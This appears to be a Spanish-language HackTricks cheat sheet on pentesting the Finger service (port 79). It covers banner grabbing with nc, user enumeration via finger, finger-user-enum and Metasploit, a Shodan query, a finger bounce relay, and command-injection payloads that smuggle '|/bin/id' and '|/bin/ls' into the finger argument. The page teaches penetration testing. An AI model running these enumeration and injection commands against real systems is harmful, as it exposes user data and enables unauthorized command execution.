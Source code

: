 # 79 - Pentesting Finger

{{#include ../banners/hacktricks-training.md}}


## **Información Básica**

El programa/servicio **Finger** se utiliza para recuperar detalles sobre los usuarios de computadoras. Típicamente, la información proporcionada incluye el **nombre de inicio de sesión del usuario, nombre completo**, y, en algunos casos, detalles adicionales. Estos detalles adicionales podrían abarcar la ubicación de la oficina y el número de teléfono (si está disponible), la hora en que el usuario inició sesión, el período de inactividad (tiempo inactivo), la última vez que el correo fue leído por el usuario, y el contenido de los archivos de plan y proyecto del usuario.

**Puerto por defecto:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Enumeración**

### **Captura de Banner/Conexión básica**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Enumeración de usuarios**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Alternativamente, puedes usar **finger-user-enum** de [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), algunos ejemplos:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap ejecuta un script para hacer usando scripts predeterminados**

### Metasploit utiliza más trucos que Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

- `port:79 USER`

## Ejecución de comandos
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Usar un sistema como un relé de finger](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
{{#include ../banners/hacktricks-training.md}}
